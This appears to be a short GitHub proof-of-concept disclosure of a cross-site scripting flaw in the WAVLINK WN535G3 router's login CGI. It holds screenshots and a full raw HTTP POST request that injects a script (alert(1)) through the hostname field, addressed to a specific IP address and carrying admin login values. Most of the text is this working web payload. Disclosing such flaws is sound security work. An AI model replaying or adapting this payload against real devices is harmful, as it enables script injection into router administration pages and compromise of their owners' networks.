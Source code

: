 # WAVLINK   WN535G3 POST XSS

![image](https://user-images.githubusercontent.com/72059221/167049389-760be75c-6d84-45f6-a8aa-ff4e7e05241b.png)



![image](https://user-images.githubusercontent.com/72059221/167049403-82f98ff0-6774-4a6f-99f4-f712824c765b.png)



![image](https://user-images.githubusercontent.com/72059221/167049414-0eceb092-33b3-4bf6-93af-1e080c4fb314.png)


## PAYLOAD

```
POST /cgi-bin/login.cgi HTTP/1.1 Host: 98.127.66.193 Content-Length: 255 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 Origin: http://98.127.66.193 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Referer: http://98.127.66.193/ Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Connection: close newUI=1&page=login&username=admin&langChange=0&ipaddr=171.113.240.243&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&hostname=")&lt;/&gt;&lt;&gt;alert(1)&lt;/&gt;&key=M27234733&password=63a36bceec2d3bba30d8611c323f4cda&lang_=cn
```



![image](https://user-images.githubusercontent.com/72059221/167049430-31952408-b40b-4263-a16f-41a3634540bf.png)


![image](https://user-images.githubusercontent.com/72059221/167049442-fc47e4a5-ec10-4feb-9488-70b86c07ec8c.png)


